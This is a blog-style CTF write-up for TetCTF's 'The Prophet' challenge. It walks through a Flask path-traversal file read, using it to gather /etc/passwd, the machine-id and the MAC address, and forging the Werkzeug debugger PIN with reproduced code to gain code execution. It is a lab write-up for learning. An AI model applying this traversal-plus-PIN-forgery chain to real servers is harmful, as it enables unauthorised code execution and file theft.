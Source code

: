 ```yaml
---
layout: post
title: "The Prophet - TetCTF"
date: "2020-01-08 07:12"
category: writeup
tags: [ctf, writeup, python, flask, ACE]
---
```


This was a fun one. We start off with a web page and get a foothold with an
arbitrary file read vulnerability, and end it off with a Python Flask Arbitrary
Code Execution in the web debugger.

On the webpage, we are presented with a hyperlink with the text `Read some
oracle here`. Clicking the hyperlink brings us to 5 web pages
`/read/oracle/[1-5].txt`. One of them, `1.txt`, says the following:

> Flag is in random folder at /, but what is it name? Who know 🤷‍♂️ 
> Can you help me? (This is not brute/guess challenge...) !

We try to see if we can get to other files by changing the URL to something
else (try `0.txt`), and we get a Flask debugger error page. In it, we see the
directory the app lives in, `/home/web3_user/app.py`. Let's see what would
happen if we change the URL to that. We set the URL to `/read/app.py`. We get
the following Python code:

```python
from flask import Flask
from flask import render_template
import random

app = Flask(__name__)

@app.route('/')
def index():
	rand = str(random.randint(1, 5))
	return render_template('index.html', random=rand)

@app.route('/read/<path:filename>')
def read(filename=None):
	rand = str(random.randint(1, 5))

	try:
		content = open(filename, 'r').read()
	except:
		raise
	return render_template('file.html', filename=content, random=rand)

if __name__ == '__main__':
	app.run(host='0.0.0.0', port='7004', debug=True)
```

To read files with directory traversal, substitute your `/` with the URL
encoded equivalent `%2f`. Reading `/etc/passwd` would just be a get request to
`/read/..%2f..%2fetc%2fpasswd` (remember that we are in `/home/web3_user/`).

As you can see, debug mode is on. This means that whenever an error occurs, an
interactive console can be toggled and let you input code (a.k.a. Flask
debugger page mentioned above). The caveat is that it is secured with a PIN
that is only displayed in the `stdout` when you run the server. This PIN is not
generated randomly every time; rather, it uses a bunch of different
machine-specific pieces of information to generate a PIN. This is the
[function][gen-pin-fn] for generating a PIN. I have taken the liberty to remove
the part that checks the environment for a pin.

```python
def get_pin_and_cookie_name(app):
    """Given an application object this returns a semi-stable 9 digit pin
    code and a random key.  The hope is that this is stable between
    restarts to not make debugging particularly frustrating.  If the pin
    was forcefully disabled this returns `None`.
    Second item in the resulting tuple is the cookie name for remembering.
    """
    rv = None
    num = None

    modname = getattr(app, "__module__", app.__class__.__module__)

    try:
        # getuser imports the pwd module, which does not exist in Google
        # App Engine. It may also raise a KeyError if the UID does not
        # have a username, such as in Docker.
        username = getpass.getuser()
    except (ImportError, KeyError):
        username = None

    mod = sys.modules.get(modname)

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, "__name__", app.__class__.__name__),
        getattr(mod, "__file__", None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [str(uuid.getnode()), get_machine_id()]

    h = hashlib.md5()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, text_type):
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = "__wzd" + h.hexdigest()[:20]

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = ("%09d" % int(h.hexdigest(), 16))[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv, cookie_name
```

Fix the import errors:

```python
from itertools import chain
import sys
import hashlib
```

You might also notice that the variable `text_type` is not defined anywhere.
Digging a bit deeper in the [source code][text_type-src] gives us `text_type =
str` if we are using Python 3 (which we are).

There is another function that is referenced: `get_machine_id`, which gets the
machine's ID, regardless of operating system. Using the exploit, we can read
the file `/etc/os-release` to see that we are on an Ubuntu system, so we check
the contents of `/etc/machine-id` and replace the function call with the string
`d4e6cb65d59544f3331ea0425dc555a1`.

We now need to know the username, modname, and whatever `uuid.getnode` returns.
The username is simple. We use the exploit to read `/etc/passwd` and see that
we are probably `web3_user`. If you call the function now and print the
`modname`, you see that it just says `flask.app`, so let's assume that it's the
same everywhere. This leaves `uuid.getnode`. We read the
[documentation][uuid-getnode] and see that it gets the hardware address (MAC
address) of the network interface. To do this, we first have to list out all
the current network interfaces by reading the file `/proc/net/dev`. We find the
ethernet interface `ens3` and read the file `/sys/class/net/ens3/address` to
get the hardware address `56:00:02:7a:23:ac`, and convert it into an integer,
and then to a string.

We are actually missing one thing. Within `get_pin_and_cookie_name` there is a
variable `probably_public_bits`. The last item may not be the same as the one
on the server, depending on the system you run python on. If we run the
function right now and print this variable, the last item would be something
similar to `/usr/*/python3.x/*-packages/flask/app.py`. If you would recall,
when we first ran into the error, it output
`/usr/local/lib/python3.5/dist-packages/flask/app.py`. So we simply replace the
call to `getattr` with the previous string, and call the function to get the
PIN. If it isn't obvious already, the parameter you call it with is the
`app.py` code you got earlier.

After getting the PIN, we have access to the Werkzeug debugger/interactive
console, and thus have ACE. We execute the following code to find the flag:

```python
>>> import os
>>> os.listdir('/')
['media', 'tmp', 'lib', 'swapfile', 'srv', 'usr', 'vmlinuz', 'opt',
'initrd.img.old', 'home', 'bin', 'boot', 'etc', 'lost+found', 'initrd.img',
'root', 'mnt', 'vmlinuz.old', 'dev', 'phao_san_pa_lay___1337', 'sys', 'proc',
'run', 'lib64', 'sbin', 'snap', 'var']
>>> os.listdir('/phao_san_pa_lay___1337')
['flagggg.txt']
>>> open('/phao_san_pa_lay___1337/flagggg.txt').read()
"TetCTF{Flask_Debug_LFI___Wuttt__RCE}\n\nPlease don't do any further action" +
"on the server, we knew the setup suck, but it's needed for the vulnerability\n"
```

[gen-pin-fn]: https://github.com/pallets/werkzeug/blob/71cf9902012338f8ee98338fa7bba50572606637/src/werkzeug/debug/__init__.py#L133
[uuid-getnode]: https://docs.python.org/3/library/uuid.html#uuid.getnode
[text_type-src]: https://github.com/pallets/werkzeug/blob/71cf9902012338f8ee98338fa7bba50572606637/src/werkzeug/_compat.py#L129
